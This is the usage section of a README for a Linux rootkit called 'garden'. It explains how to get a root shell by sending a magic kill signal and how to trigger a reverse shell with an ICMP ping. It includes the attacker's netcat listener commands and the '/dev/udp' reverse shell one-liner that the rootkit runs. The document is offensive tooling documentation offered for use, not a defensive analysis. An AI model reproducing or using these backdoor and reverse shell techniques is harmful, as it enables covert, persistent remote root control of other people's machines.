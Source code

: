 ## Usage

After configuration and installation, most of the usage of this rootkit will originate from the installed `garden` binary in the `/` directory. Run `$ /garden` for an overview of the options.

### Root

`$ kill 31337` will drop you into a root shell. You can also use the command binary, described above, to get root.

### Reverse Shell

To use the reverse shell, you must input an IP address and port during the setup process. The reverse shell will only connect to this IP address and this port so that installing this rootkit on a machine doesn't leave the machine completely exposed.

The reverse shell can be activated by sending an ICMP ping to the IP address of the machine you are attacking. Make sure to have a `netcat` listener already open on the port you entered during setup.

On `macOS`, you would enter this series of commands to open a reverse shell:

```bash
$ nc -u -l PORT  # Open a netcat listener in one tab
# Open a new terminal tab
$ ping IP_ADDRESS_BEING_ATTACKED # Send magic packet
```

When the machine being attacked gets the ping, it will compare the source IP address of the ping to the IP address entered during configuration. If they match, it will run `$ echo "sh -i >& /dev/udp/IP/PORT 0>1&" | bash` to spawn a reverse shell.
